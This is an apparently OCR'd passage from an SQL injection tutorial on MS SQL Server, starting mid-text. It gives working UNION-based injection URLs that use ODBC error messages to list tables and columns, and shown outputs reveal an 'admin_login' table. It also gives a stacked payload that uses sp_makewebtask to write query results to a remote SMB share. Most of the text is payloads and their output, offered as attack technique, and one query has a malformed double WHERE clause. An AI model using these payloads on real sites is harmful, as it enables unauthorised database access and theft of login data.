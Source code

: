 1. tcpdump icmp
If you do not get any ping request from the server, and get error message indicating permission error, it is possible that the administrator has limited Web User access to these stored procedures.
How to get output of my SQL query?
It is possible to use sp_makewebtask to write your query into an HTML:
'; EXEC master..sp_makewebtask "\\10.10.1.3\share\output.html", "SELECT * FROM INFORMATION_SCHEMA.TABLES"
But the target IP must folder "share" sharing for Everyone.

# How to get data from the database using ODBC error message #

We can use information from error message produced by the MS SQL Server to get almost any data we want. Take the following page for example:
<http://duck/index.asp?id=10> 
We will try to UNION the integer '10' with another string from the database:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--
The system table INFORMATION_SCHEMA.TABLES contains information of all tables in the server. The TABLE_NAME field obviously contains the name of each table in the database. It was chosen because we know it always exists. Our query:
SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES-
This should return the first table name in the database. When we UNION this string value to an integer 10, MS SQL Server will try to convert a string (nvarchar) to an integer. This will produce an error, since we cannot convert nvarchar to int. The server will display the following error:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'table1' to a column of data type int. 
/index.asp, line 5
The error message is nice enough to tell us the value that cannot be converted into an integer. In this case, we have obtained the first table name in the database, which is "table1".
To get the next table name, we can use the following query:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME NOT IN ('table1')--
We also can search for data using LIKE keyword:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%25login%25'--
Output:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'admin_login' to a column of data type int. 
/index.asp, line 5
The matching patent, '%25login%25' will be seen as %login% in SQL Server. In this case, we will get the first table name that matches the criteria, "admin_login".

## How to mine all column names of a table ##

We can use another useful table INFORMATION_SCHEMA.COLUMNS to map out all columns name of a table:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login'--
Output:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'login_id' to a column of data type int. 
/index.asp, line 5
Now that we have the first column name, we can use NOT IN () to get the next column name:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login' WHERE COLUMN_NAME NOT IN ('login_id')--
Output:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'login_name' to a column of data type int. 
/index.asp, line 5